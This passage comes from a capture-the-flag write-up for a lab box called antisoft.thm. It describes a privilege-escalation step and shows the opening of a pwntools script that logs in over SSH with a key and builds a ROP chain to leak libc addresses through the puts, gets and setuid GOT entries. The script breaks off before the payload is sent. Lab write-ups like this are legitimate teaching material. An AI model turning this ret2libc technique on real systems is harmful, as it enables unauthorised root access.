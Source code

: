 
![Pasted image 20250328185828.png](../../IMAGES/Pasted%20image%2020250328185828.png)

Now, with each address, we can calculate the offset to the base address using libc:

![Pasted image 20250328185935.png](../../IMAGES/Pasted%20image%2020250328185935.png)

Let's download the second file, the first file didn't work for me and simply do the following payload to get root:



```python
from pwn import *

user = "zeeshan"
port = 22
host = "antisoft.thm"
private_key = "./id_rsa"

ssh_connection = ssh(host=host, user=user, keyfile=private_key, port=port)

context.binary = binary = ELF("./exploit_me", checksec=False)

_ROP = ROP(binary)

padding = b'A' * 40
pop_rdi_ret_address = p64(_ROP.find_gadget(["pop rdi", "ret"])[0])
plt_puts_address = p64(binary.plt.puts)
got_puts_address = p64(binary.got.puts)
got_gets_address = p64(binary.got.gets)
got_setuid_address = p64(binary.got.setuid)
main_address = p64(binary.symbols.main)

```
